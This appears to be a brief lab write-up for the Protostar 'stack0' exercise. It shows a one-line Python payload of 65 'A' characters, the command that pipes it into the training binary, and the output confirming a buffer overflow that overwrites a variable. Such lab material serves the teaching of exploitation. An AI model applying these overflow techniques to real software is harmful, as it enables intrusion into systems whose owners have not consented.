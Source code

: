 # Stack 0
Here is the code for cracking the program

Exploit python 3 code (stack0.py)
```python3
print("A"*65)
```

Terminal command

```shell
python3 stack0.py | /opt/protostar/bin/stack0
```

Output

```shell
you have changed the 'modified' variable
```
This is a simple buffer overflow that overwrites an integer variable.
